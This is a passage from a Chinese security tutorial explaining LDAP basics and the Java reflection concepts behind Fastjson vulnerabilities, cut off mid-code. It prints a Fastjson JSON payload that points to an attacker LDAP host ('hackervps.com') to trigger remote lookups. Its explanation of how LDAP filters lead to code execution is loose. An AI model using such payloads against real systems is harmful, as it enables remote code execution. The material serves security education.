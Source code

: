 ### （2）通过公司 - 员工管理的例子来理解 Fastjson 系列漏洞中 ldap 的作用

假设有一个名为"`example.com`"的公司，需要存储和管理员工信息。他们使用`LDAP`作为员工信息的目录服务，每个员工都在`LDAP`中有一个唯一的标识符（`DN`）。这里我们举两个员工例子：

```plain
DN: uid=john,ou=People,dc=example,dc=com
cn: John Doe
sn: Doe
givenName: John
uid: john
userPassword: {SHA}W6ph5Mm5Pz8GgiULbPgzG37mj9g=

DN: uid=alice,ou=People,dc=example,dc=com
cn: Alice Smith
sn: Smith
givenName: Alice
uid: alice
userPassword: {SHA}W6ph5Mm5Pz8GgiULbPgzG37mj9g=
```

在`LDAP`中，`DN`是一个唯一的标识符，它类似于文件系统中的路径。每个`DN`由多个`RDN`（相对区分名称）组成，例如：

```plain
uid=john,ou=People,dc=example,dc=com
```

这个`DN`由三个`RDN`组成：`uid=john`、`ou=People`、`dc=example,dc=com`。  
可以使用如下`LDAP`查询语句来检索员工信息，例如：`(&(objectClass=person)(uid=john))`  
这个查询语句表示查找所有`objectClass`为`person`，且`uid`为`john`的员工信息。在`LDAP`中，查询语句使用`LDAP`搜索过滤器（`LDAP Search Filter`）进行筛选。在`Fastjson`漏洞中，攻击者可以通过构造特定的`LDAP`查询语句，来执行任意代码或获取敏感信息。例如，以下`JSON`字符串包含一个恶意构造的`LDAP URL`：

```plain
{"@type":"java.net.URL","val":"ldap://hackervps.com/exp"}
```

当`Fastjson`解析该`JSON`字符串时，会触发`LDAP`查询操作，查询`hackervps.com`上的`LDAP`服务，并执行名为“`exp`”的操作。这就是`Fastjson`漏洞的成因之一。

## 6\. java 反射是什么？

参考：

> [https://www.javasec.org/javase/Reflection/Reflection.html](https://www.javasec.org/javase/Reflection/Reflection.html)

### （1）通过 demo 快速理解反射

如果我们不用反射的话，我们写的代码会是下面这样：  
`Person.java`：

```plain
package org.example;

public class Person {
    private String name;
    private int age;

    public Person(String name, int age) {
        this.name = name;
        this.age = age;
    }

    public void sayHello() {
        System.out.println("Hello, my name is " + name + ", I'm " + age + " years old.");
    }

    public void setAge(int age) {
```